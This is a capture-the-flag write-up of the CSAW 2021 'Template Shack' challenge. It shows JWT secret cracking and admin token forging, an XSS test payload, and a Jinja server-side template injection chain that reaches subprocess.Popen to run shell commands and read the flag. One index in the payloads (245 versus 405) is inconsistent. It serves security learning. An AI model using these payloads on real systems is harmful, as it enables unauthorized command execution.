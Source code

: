 
---

# Template Shack


Writeup by: [SinDaRemedy](https://github.com/SinDaRemedy)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/Template_Shack/)

---

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%205.03.40%20AM.png)

## Initial Research

When I entered the site the first thing i noticed was the login portal. I inspected the page source, clicked on sb admin 2 to see if I'd find anyting interesting but there was nothing to be found. 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.11.55%20AM.png)

Of course, as most of us would do, I tried to login in with the common default creds and then proceeded to look for other vectors.  Checked out the browser inspector and burpsuite  and realized there was a token in the cookies. 

I made note of the server and checked for vulnerabilities for Python 3.6.9 then found [**CVE-2019-16935**](https://nvd.nist.gov/vuln/detail/CVE-2019-16935#vulnCurrentDescriptionTitle) and a weakness enumeration for XSS at [**CWE-79**](http://cwe.mitre.org/data/definitions/79.html)

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.26.54%20AM.png)

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%2012.49.18%20AM.png)

Since token-based authentication doesn't require that the server know about the session data and I had a hash I figured this would be a possible attack vector. I made a file with the token and and decoded the hash with John-the-Ripper (john).  We cracked the hash and the password was "**supersecret**"

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.22.07%20AM.png)

At the same time I was also working on decoding and creating a new web token for the admin. I changed the guest to admin and entered the password in order to get my new hash.

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%2012.48.59%20AM.png)

## Initial Access/Testing

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.31.10%20AM.png)

Then it was time for the next logical step.. Let's see if this exploit actually works!

First thing I wanted to see is if I can get an XSS alert

``` Javascript
username=<Script Language="Javascript">alert("You've been attacked!");</Script>
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.24.59%20AM.png)

Then I wanted to see if we could get a Server Side Template Injection with jinja by doing some basic math. 

``` python
{{7*7}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%201.22.55%20AM.png)

## Payload 

Immediately after started to craft a payload with a couple of things in mind. 

- The goal was to get command execution
- One thing I knew was python **metadata properties can be accessed through any object. **
	- I needed to first start with accessing the "**__class__**" from the metaproperties.
		- Then proceed to accessing the Method Resolution Object (**MRO**) since from there I could start to enumerate the hierarchy and subclasses. 
		- From the subclasses we have to try to gain access to a class that will allow us to execute commands

**All payloads are entered after the url as a path**

``` python
{{''.__class__}}
```

The empty string allows for you to get more results in your output.

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.31.10%20AM.png)
``` python
{{''.__class__.__mro__}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.41.32%20AM.png)

```python
{{' '.__class__.__mro__[0].__subclasses__()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.40.48%20AM.png)

```python
{{''.__class__.__mro__[1].__subclasses__()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%202.42.39%20AM.png)
I copied and pasted all the output in to "subclasses.txt".  cleaned up the data so that it was more manageable. 

``` shell
cat subclasses.txt| tr ',' '\n' > subclasses_new.txt
```

Since the goal of this payload is to [execute a command through the shell](https://docs.python.org/2/library/subprocess.html#popen-constructor) I wanted to begin searching for the **Popen** class. I filtered the search in "subclasses_new.txt" for "Popen" and seen that  "subprocess.Popen" was indexed as #405 on the list (Starting with 0). 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.04.35%20AM.png)

I confirmed that it was the indexed as 405 in the list by adding it to the to the payload. 

``` python
{{[].__class__.__mro__[1].__subclasses__()[245]}}

<class 'subprocess.Popen'>
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.33.26%20AM.png)

After making note of that I continued to modify the script as shown below and test the command execution.

``` python
{{[].__class__.__mro__[1].__subclasses__()[405]('ls -la',shell=True,stdout=-1).communicate()[0].strip()}}
```

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%203.40.04%20AM.png)

You can see that flag.txt is in the current directory so now all there was to do was change the command in order to retrieve the flag. So we change "ls -la" to "cat flag.txt" 

![image](https://github.com/SinDaRemedy/Write-Ups/blob/CTFs/H%40cktivityCon-'21/PreGame/ScreenShots/Screen%20Shot%202021-09-14%20at%204.06.11%20AM.png)

## Victory!!

Now to submit the flag!

flag{easy_jinja_SSTI_RCE}

